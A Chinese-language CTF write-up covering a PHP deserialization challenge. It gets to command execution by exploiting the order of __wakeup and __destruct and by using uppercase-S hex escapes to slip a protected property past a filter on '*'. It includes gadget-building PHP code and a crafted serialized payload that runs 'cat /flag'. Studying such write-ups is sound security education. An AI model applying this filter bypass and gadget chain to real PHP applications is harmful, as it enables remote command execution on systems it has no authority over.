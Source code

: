 

任意命令执行：

![image6899](https://raw.githubusercontent.com/Explorersss/photo/master/20201116142948.jpg)



修改全局变量cmd

![image7035](https://raw.githubusercontent.com/Explorersss/photo/master/20201116143051.jpg)



但是题目给反序列化的数据加上了一个限制：不能出现`*`(protect变量就需要`*`号)

实际测试一下发现，并不能用public,private的同名变量来代替protect变量，这是难点一

还有就是其他类的`__wakeup`方法会禁止我们通过L5D_Upload来任意变量覆盖，然后L5D_Upload又必须在其他的`__destruct`方法前执行，这是难点二

难点二我们可以通过最后一个调用L5D_Upload的`__wakeup`，第一个调用它的`__destruct`来绕过，因为`__wakeup`的调用顺序是从里到外，从前到后，`__destruct`的调用顺序是从外到内，从前到后，所以构造



```php
class L5D_Upload{
    public $padding;
    public function __construct()
    {
        $this->padding = new L5D_ResetCMD();
    }

}
class L5D_ResetCMD {

    public $padding;
    protected $new_cmd = "cat /flag";
    public function __construct()
    {
        $this->padding=new L5D_Command();
    }

}
class L5D_Command{
}
new L5D_Upload();
```

接着就是难点一了，对`*`号的禁用导致我们不能直接反序列化一个protect属性的成员

但是我们可以用大写S来绕过：

可以利用大写S来绕过对protected,private等属性的字符检测如：

```
O:12:"L5D_ResetCMD":2:{s:7:"padding";O:11:"L5D_Command":0:{}S:10:"\00\2a\00new_cmd";s:9:"cat /flag";}
```
